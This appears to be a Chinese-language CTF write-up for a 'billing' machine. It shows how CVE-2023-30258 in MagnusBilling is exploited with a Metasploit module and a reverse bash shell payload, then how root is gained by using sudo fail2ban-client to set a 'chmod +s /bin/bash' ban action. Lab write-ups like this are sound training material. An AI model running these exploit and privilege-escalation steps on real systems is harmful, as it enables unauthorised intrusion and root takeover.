 ```yaml
---
icon: pen-to-square
date: 2025-03-26
tags: 
title: billing
category:
  - 项目
---
```

## 1. 前言
本题运用了简单的[CVE-2023-30258](https://eldstal.se/advisories/230327-magnusbilling.html)漏洞，这是一个简单的远程命令执行漏洞
## 2. 复现步骤
### 反弹shell
这个漏洞已经在msf中收录了
`msfconsole`

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110410.png)

```bash
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110506.png)

```bash
show targets
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110536.png)

```bash
set PAYLOAD cmd/unix/reverse_bash
```
设置payload，然后设置Rhost Rport Lhost以及Lport
设置好监听接口以及payload之后，msf会自动接收反向shell
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112352.png)

### 提权
查看当前进程
```
ps -aux | grep fail
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112734.png)

**fail2ban-client** 是一个命令行界面，它允许我们与 **fail2ban-server** 进行交互、配置和控制。简单说明一下，**fail2ban** 是一种安全工具，可以监控日志文件中的可疑活动（例如重复失败的登录尝试），并通过更新防火墙规则来禁止违规的 IP 地址。
使用 fail2ban-client，您可以与 Fail2ban 服务交互以执行作，例如启动或停止 jail、查看或更新设置以及检查服务器上不同 jail 的状态。从本质上讲，它可以帮助您控制服务器如何响应可疑活动以确保其安全。[Fail2Ban – Linux 权限提升 - Juggernaut-sec](https://juggernaut-sec.com/fail2ban-lpe/#What_is_Fail2Ban)

#### 提权原理
如果我们发现 Fail2ban 正在目标主机上运行，则必须满足以下条件才能提升权限：

1. 配置文件（**iptables-multiport.conf** 或 **iptables.conf** – 取决于版本）需要以某种方式可写。通常，这是用户/组权限、目录/文件权限或两者的某种组合的结果。
2. 无论如何，我们的当前用户需要能够重新启动服务，才能使对配置文件所做的更改生效。


`/etc/fail2ban/jail.local`，有这样的参数

|     |                                                                                                                                                                                                                    |
| --- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
|     | `[asterisk-iptables]`<br>enabled  = true<br>filter   = asterisk<br>action   = iptables-allports`[name=ASTERISK, port=all, protocol=all]`<br>logpath  = /var/log/asterisk/messages<br>maxretry = 5<br>bantime = 600 |
|     |                                                                                                                                                                                                                    |

```
sudo /usr/bin/fail2ban-client status
```
查看当前的防火墙规则
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326113233.png)
有 8 个活动的 jail
`Jails`基本上是定义要监控的日志、要查找的模式以及匹配模式时要采取的作的配置。

关键命令
```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```
这段命令会启动`fail2ban-client`设置`asterisk-iptables`规则的`action`项，在action项中添加action